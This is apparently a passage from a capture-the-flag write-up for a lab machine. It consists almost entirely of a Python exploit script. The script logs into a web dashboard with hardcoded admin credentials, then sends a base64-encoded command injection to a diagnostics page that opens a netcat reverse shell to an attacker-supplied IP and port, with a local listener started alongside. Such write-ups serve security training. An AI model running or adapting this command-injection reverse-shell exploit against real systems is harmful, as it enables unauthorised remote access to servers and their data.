 ```python
import requests
import sys
import base64
import subprocess
import multiprocessing

index = "http://10.10.10.105/"
dashboard = "http://10.10.10.105/dashboard.php"
diag = "http://10.10.10.105/diag.php"
ip = sys.argv[1]
port = sys.argv[2]

cookies1 = {
    'PHPSESSID': '46i5r5qj18h6vl9rdp8so862v5',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0',
    'Referer': 'http://10.10.10.105/',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
}

data = 'username=admin&password=NET_45JDX23'

def listner():
	print("[+] Listing on port 1447 ")
	subprocess.call("nc -lnvp {}".format(port) , shell=True)

with requests.Session() as box:

	#performing Login reqeust
	response = box.post(index, headers=headers, cookies=cookies1, data=data)
	#Reqeusting dashboard to get cookies
	dashboard = box.get(dashboard)
	#Second Post Request for Exploit
	payload = "| rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd {} {} > f".format(ip,port)
	#base64 encode payload
	encoded_payload = base64.b64encode(payload)
	post_payload = "check={}".format(encoded_payload)
	#Final post request for exploit
	print("[+] Exploting it....!")
	process = multiprocessing.Process(target=listner)
	process.start()
	exploit = box.post(diag, headers=headers, cookies=cookies1, data=post_payload)
	print(exploit.status_code)

```

#### Spawing shell:
